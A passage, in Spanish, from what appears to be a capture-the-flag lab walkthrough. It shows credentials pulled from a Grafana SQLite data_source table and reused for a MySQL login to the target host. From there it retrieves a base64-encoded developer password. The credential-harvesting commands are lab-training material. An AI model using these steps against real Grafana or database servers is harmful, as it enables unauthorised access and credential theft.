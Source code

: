 Tenemos al usuario *admin* y una contraseña *hasheada*, que será *messageInABottle685427*. Por lo tanto, nada interesante.

Explorando un poco más, encontramos el siguiente contenido en la tabla *data_source*:

```sql
sqlite> select * from data_source;
2|1|1|mysql|mysql.yaml|proxy||dontStandSoCloseToMe63221!|grafana|grafana|0|||0|{}|2022-09-01 22:43:03|2023-01-20 23:24:06|0|{}|1|uKewFgM4z
```

La estructura de esta tabla es la siguiente:

```sql
sqlite> .schema data_source 
CREATE TABLE `data_source` (
`id` INTEGER PRIMARY KEY AUTOINCREMENT NOT NULL
, `org_id` INTEGER NOT NULL
, `version` INTEGER NOT NULL
, `type` TEXT NOT NULL
, `name` TEXT NOT NULL
, `access` TEXT NOT NULL
, `url` TEXT NOT NULL
, `password` TEXT NULL
, `user` TEXT NULL
, `database` TEXT NULL
, `basic_auth` INTEGER NOT NULL
, `basic_auth_user` TEXT NULL
, `basic_auth_password` TEXT NULL
, `is_default` INTEGER NOT NULL
, `json_data` TEXT NULL
, `created` DATETIME NOT NULL
, `updated` DATETIME NOT NULL
, `with_credentials` INTEGER NOT NULL DEFAULT 0, `secure_json_data` TEXT NULL, `read_only` INTEGER NULL, `uid` TEXT NOT NULL DEFAULT 0);
CREATE INDEX `IDX_data_source_org_id` ON `data_source` (`org_id`);
CREATE UNIQUE INDEX `UQE_data_source_org_id_name` ON `data_source` (`org_id`,`name`);
CREATE UNIQUE INDEX `UQE_data_source_org_id_uid` ON `data_source` (`org_id`,`uid`);
CREATE INDEX `IDX_data_source_org_id_is_default` ON `data_source` (`org_id`,`is_default`);
```

Parece que los datos están relacionados con el servicio *MySQL*. Tenemos las credenciales *grafana:dontStandSoCloseToMe63221!*.

### Puerto 3306 abierto (MySQL)

Podemos emplear las credenciales anteriores para autenticarnos por *MySQL*. El comando que ingresaremos será:

```bash
mysql -u grafana -h 10.10.11.183 -pdontStandSoCloseToMe63221!
```

Una vez dentro:

1. Encontraremos una base de datos llamada *whackywidget*.
2. Esta contendrá una tabla *users*.
3. En el interior de la tabla encontraremos las credenciales *developer:YW5FbmdsaXNoTWFuSW5OZXdZb3JrMDI3NDY4Cg\==*
